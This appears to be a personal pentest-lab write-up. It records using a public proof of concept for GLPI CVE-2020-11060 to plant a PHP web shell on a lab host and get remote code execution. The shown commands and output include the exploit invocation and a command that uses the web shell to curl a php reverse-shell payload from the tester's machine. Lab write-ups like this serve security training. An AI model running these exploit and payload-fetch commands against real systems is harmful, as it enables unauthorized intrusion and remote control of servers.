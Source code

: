 utilized this script `https://github.com/0xdreadnaught/cve-2020-11060-poc` to get `RCE`.

The 1st attempt that I ran it showed that it failed due to the chosen offset which was `313` according to my command above
![[Pasted image 20240120231132.png]]
i switched it to `312` the default and was able to get RCE
- typically takes around 3 times to actually work
```powershell
[root💀~/SUT/offshore/mgmt01] [10.10.14.39] [2024-01-20 23:07:58] 
 └─╼ # proxychains python3 CVE-2020-11060.py --url 'http://172.16.2.12/' --user 'glpi_adm' --password 'passwords' --platform 'win' --offset 312
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[+] GLPI Browser targeting 'http://172.16.2.12/' ('windows') with following credentials: 'glpi_adm':'passwords'.
[+] Target is up and responding.
[+] User 'glpi_adm' is logged in.
------------------------- trial number 1 -------------------------
[*] Wiping networks...
[+] Network created
[+] Modifying network
        New ESSID: RCEe
[+] Current shellname: mavEnVji.php
[*] Dumping the database remotely at: C:\xampp\htdocs\sound\mavEnVji.php
[+] File 'dumped', accessible at: http://172.16.2.12//sound/mavEnVji.php
[+] Shell size: 8365
------------------------------------------------------------------
[+] RCE found after 1 trials!
[+] You can execute command remotely as: nt authority\network service@MGMT01
[+] Run this tool again with the desired command to inject:
        python3 CVE-2020-11060.py --url 'http://172.16.2.12//sound/mavEnVji.php' --command 'desired_command_here'

```

![[Pasted image 20240120231242.png]]

found potential passwords
![[Pasted image 20240120231550.png]]
able to `ping` my own machine so should be able to pull files over as well
![[Pasted image 20240120233019.png]]

# This is normal flag
found in `c:\users\public\`
![[Pasted image 20240120235709.png]]
utilized curl to transfer file
![[Pasted image 20240121000953.png]]```
```powershell
[root💀~/SUT/offshore/mgmt01] [10.10.14.39] [2024-01-21 00:09:27] 
 └─╼ # proxychains python3 CVE-2020-11060.py --url 'http://172.16.2.12//sound/mavEnVji.php' --command 'curl -O http://10.10.14.39:8000/php-revshell.php'
```
